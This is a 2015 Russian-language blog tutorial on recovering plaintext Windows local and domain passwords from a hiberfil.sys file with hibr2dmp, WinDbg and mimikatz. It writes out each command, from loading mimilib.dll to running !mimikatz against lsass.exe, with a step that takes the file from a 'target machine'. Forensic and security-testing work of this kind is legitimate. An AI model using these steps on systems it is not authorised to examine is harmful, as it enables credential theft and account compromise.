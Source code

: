 ```yaml
---
title: "Восстановливаем локальные и доменные пароли из hiberfil.sys"
date: 2015-02-16
---
```


Утилита [mimikatz](http://blog.gentilkiwi.com/mimikatz), позволяющая извлекать учётные данные Windows из LSA в открытом виде, существует с 2012 года, однако помимо [хорошо освещённого](http://www.securitylab.ru/news/420431.php) функционала восстановления паролей из памяти работающей ОС у неё есть ещё одна довольно интересная возможность. Далее я приведу пошаговую инструкцию, как при помощи нехитрых действий извлечь учётные данные из файла hiberfil.sys.  
  


###  **Подготовка**

  
Для осуществления задуманного нам понадобятся следующие утилиты:  


  * [Debugging Tools for Windows](https://msdn.microsoft.com/en-us/library/windows/hardware/ff551063\(v=vs.85\).aspx)
  * [Windows Memory toolkit](http://www.moonsols.com/windows-memory-toolkit/) free edition
  * И, собственно, сам [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)



###  **Действия**

  


1\. Получаем файл hiberfil.sys с целевой машины.

  


2\. Конвертируем файл в формат понятный WinDbg

  


**hibr2dmp.exe d:\temp\hiberfil.sys c:\temp\hiberfil.dmp**

**  
**

Процесс может занять довольно продолжительное время

  


[![](images/1.jpg)](images/1.jpg)

  


3\. Запускаем WinDbg и открываем полученный файл 

  


**File  -**> **Open Crash Dump**

  


4\. Настраиваем отладочные символы

  


Открываем **File  ****-** >** ****Symbol File Path… **и вписываем следующую строчку

  


**SRV*c:\symbols*http://msdl.microsoft.com/download/symbols**

**  
**

Вместо c:\symbols, естественно, может быть любой каталог, в который будут загружены символы 

  


[![](images/2.png)](images/2.png)

  


В командной строке дебаггера пишем

  


0: kd> **.reload /n**

**  
**

Ждём окончания загрузки символов

  


[![](images/1.png)](images/1.png)

  


5\. Указываем путь к библиотеке mimilib.dll (находится в каталоге с mimikatz)

  


0: kd> **.load z:\Soft\Security\Passwords\Mimikatz\x64\mimilib.dll**

**  
**

[![](images/1.png)](images/1.png)

  


6\. Находим адрес процесса lsass.exe

  


0: kd> **!process 0 0 lsass.exe**

**  
**

[![](images/1.png)](images/1.png)

  


В данном случае адрес: fffffa800a7d9060

  


7\. Переключаем контекст процесса

  


0: kd> **.process /r /p fffffa800a7d9060**

**  
**

[![](images/1.png)](images/1.png)

  


8\. Запускаем mimikatz и получаем пароли в открытом виде

  


0:kd>** !mimikatz**

**  
**

[![](images/1.png)](images/1.png)

**  
**

**  
**

**  
**

###  **Ссылки по теме**

**  
**

Раскрытие учетных данных в Microsoft Windows: **<http://www.securitylab.ru/vulnerability/420418.php>**

LSA Authentication: <https://msdn.microsoft.com/en-us/library/windows/desktop/aa378326(v=vs.85).aspx>  
What is Digest Authentication:**<https://technet.microsoft.com/en-us/library/cc778868(WS.10).aspx>**

  


**  
**

  


  

